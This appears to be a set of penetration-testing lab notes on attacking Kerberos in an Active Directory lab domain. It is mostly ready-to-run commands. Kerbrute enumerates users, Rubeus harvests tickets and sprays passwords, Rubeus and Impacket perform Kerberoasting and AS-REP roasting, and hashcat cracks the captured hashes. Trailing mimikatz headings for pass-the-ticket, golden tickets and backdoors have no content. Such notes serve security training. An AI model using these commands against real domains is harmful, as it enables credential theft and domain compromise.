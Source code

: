 # Attacking Kerberos

## Enumeration with Kerbrute

{% hint style="info" %}
Make sure to have added the domain to the /etc/hosts file
{% endhint %}

```bash
/home/kali/go/bin/kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Harvesting & Brute-Forcing Tickets w/Rubeus

{% hint style="info" %}
You will need to already be on the target having used RDP or SSH
{% endhint %}

```powershell
# This command tells Rubeus to harvest for TGTs every 30 seconds
C:\Users\Administrator\Downloads>Rubeus.exe harvest /interval:30
```

{% hint style="info" %}
Before Password Spraying we need to add the Domain to the Windows Hosts file
{% endhint %}

```powershell
# Adding Domain to the Windows Hosts file
echo 10.10.171.128 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
# This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user 
Rubeus.exe brute /password:Password1 /noticket
```

## Kerberoasting w/ Rubeus & Impacket

### Method 1 - Rubeus

```powershell
Rubeus.exe kerberoast
# Crack any found hashes
head http-hash.txt
$krb5tgs$23$*HTTPService$CONTROLLER.local$CONTROLLER-1/HTTPService.CONTROLLER.local:302...
hashcat -m 13100 -a 0 http-hash.txt Pass.txt
```

### Method 2 - Impacket

```bash
python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.199.11 -request
# Crack any found hashes
head sql-hash.txt
$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local:301...
hashcat -m 13100 -a 0 sql-hash.txt Pass.tx
```

## AS-REP Roasting w/ Rubeus

```powershell
# Again from the target Windows machine
Rubeus.exe asreproast
# Crack the found hashes with Hashcat
head admin2-hash.txt
$krb5asrep$Admin2@CONTROLLER.local:167...
# Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User...
head admin2-hash.txt
$krb5asrep$23$Admin2@CONTROLLER.local:167...
hashcat -m 18200 -a 0 admin2-hash.txt Pass.txt
```

## Pass the Ticket w/ mimikatz

## Golden/Silver Ticket Attacks w/ mimikatz

## Kerberos Backdoors w/mimikatz
